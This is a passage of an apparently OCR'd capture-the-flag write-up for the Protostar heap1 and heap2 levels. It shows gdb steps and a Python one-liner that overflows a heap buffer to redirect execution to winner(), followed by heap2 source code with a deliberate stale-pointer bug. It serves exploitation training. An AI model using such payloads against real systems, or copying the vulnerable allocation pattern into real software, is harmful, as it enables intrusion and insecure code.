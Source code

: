     ```bash
    gdb > disas main
    gdb > b **0x08048567
    gdb > run asdf asdf
    gdb > i r $esp
    ```

5. From gdb we know that $esp contains the return address 0xbffff68c. We have to keep in mind that when not using gdb, the addresses will not correspond exactly to what we have seen using the debugger. Therefore, the return address will not be precise.
6. A workaround for this is to repeatedly write our own target address starting from a bit before what gdb told us, and continuing a bit after. With this approach, we are sure that at some point we will be writing at the right location.
7. The first argument is made by the 20 random bytes and a address lower than our known gdb-related return address, than we need a space to respect the syntax of the heap1 program, and then we have a sled of our target address. At some point the target address will be hit and we will reach the winner method.

    ```bash
    ./heap1 `python -c "print 'A' * 20 + '\x60\xf6\xff\xbf' + ' ' + '\x94\x84\x04\x08' * 8"`
    ```

### [Heap 02]
What can happen when heap pointers are stale? (This level is completed when you see the “you have logged in already!” message)

```c
struct auth {
    char name[32];
    int auth;
};

struct auth *auth;
char *service;

int main(int argc, char **argv){
    char line[128];

    while(1) {
        printf("[ auth = %p, service = %p ]\n", auth, service);

        if(fgets(line, sizeof(line), stdin) == NULL) break;
        
        if(strncmp(line, "auth ", 5) == 0) {
            auth = malloc(sizeof(auth));
            memset(auth, 0, sizeof(auth));
            if(strlen(line + 5) < 31) {
                strcpy(auth->name, line + 5);
            }
        }
        if(strncmp(line, "reset", 5) == 0) {
            free(auth);
        }
        if(strncmp(line, "service", 6) == 0) {
            service = strdup(line + 7);
        }
        if(strncmp(line, "login", 5) == 0) {
            if(auth->auth) {
                printf("you have logged in already!\n");
            } else {
                printf("please enter your password\n");
            }
        }
    }
}
```